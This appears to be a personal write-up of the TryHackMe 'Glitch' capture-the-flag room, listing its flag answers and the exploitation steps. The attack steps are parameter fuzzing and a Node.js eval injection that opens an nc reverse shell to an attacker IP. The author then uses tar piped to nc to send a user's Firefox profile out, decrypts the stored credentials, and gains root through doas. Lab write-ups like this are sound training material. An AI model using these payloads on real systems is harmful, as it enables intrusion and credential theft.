




# TryHackMe Glitch

> Saikat Karmakar | Apr 26 : 2021

---

### Task 1
1. What is your access token?

```
this_is_not_real
```

2. What is the content of user.txt?

```
THM{i_don't_know_why}
```

3. What is the content of root.txt?
```
THM{diamonds_break_our_aching_minds}
```


-----------
***Notes***
-----------
- rce to revshell : 
https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44



```

**request**

```http
POST /api/items HTTP/1.1
Host: 10.10.159.111
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: token=this_is_not_real
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
Connection: close
```
**response**
```
there_is_a_glitch_in_the_matrix
```

- to filter the len of the response for ffuf & fuzz for params
```bash
curl -X POST 'http://10.10.159.111/api/items?abdc=please_sub' | wc -c
> 45
```
- fuzzing for parameters
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt:FUZZ -X POST  -u http://10.10.159.111/api/items?FUZZ=please_sub -fs 45 -mc all
````

- eval() fn executing 
```http
HTTP/1.1 500 Internal Server Error
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 26 Apr 2021 16:02:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1079
Connection: close
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: ls is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```



- payload to get rev shell
```bash
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.23.120 9999 >/tmp/f')
```
- **request with payload**
```http
POST /api/items?cmd=require%28%22child%5Fprocess%22%29%2Eexec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E4%2E23%2E120%209999%20%3E%2Ftmp%2Ff%27%29 HTTP/1.1
Host: 10.10.121.133
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: token=this_is_not_real
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
Connection: close
```
- **response**
```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 27 Apr 2021 13:47:43 GMT
Content-Type: text/html; charset=utf-8
Connection: close
X-Powered-By: Express
ETag: W/"27-hyVNLWK8VBc+cTKoitWKEav28lY"
Content-Length: 39

vulnerability_exploited [object Object]
```


- stabilize the shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```
- imp folder `.firefox` in home dir of the user
https://github.com/unode/firefox_decrypt

- send the folder to our machine
```bash
tar -cf - ./.firefox/ | nc 10.4.23.120 1234
```
- receive
```bash
nc -nvlp 1234 | tar -xf -
```
- run the exploit 
```bash
python3 exp.py ./.firefox/ 
```

- id & pass
```
Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```
- find suid 
```bash
find / -perm -u=s -type f 2>/dev/null

>>> /usr/local/bin/doas
```
- fexecute the binary 
```bash
/usr/local/bin/doas -u root pkexec /bin/bash
```


